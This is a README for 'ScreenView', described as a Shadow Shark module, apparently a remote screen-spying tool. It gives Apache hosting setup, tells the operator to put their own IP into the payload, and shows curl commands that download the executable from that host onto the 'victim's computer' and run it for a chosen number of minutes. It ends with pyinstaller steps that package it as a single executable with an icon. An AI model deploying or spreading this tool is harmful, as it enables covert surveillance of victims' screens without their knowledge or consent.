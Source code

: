 # ScreenView
The Shadow Shark ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### ScreenView.py
This module can run on Linux, Windows, and MacOS. To configure the payload go to line 32 and replace IP with your IP.
### On victim's computer
```
$ curl http://IP/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (time in minutes to view the victim's screen)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
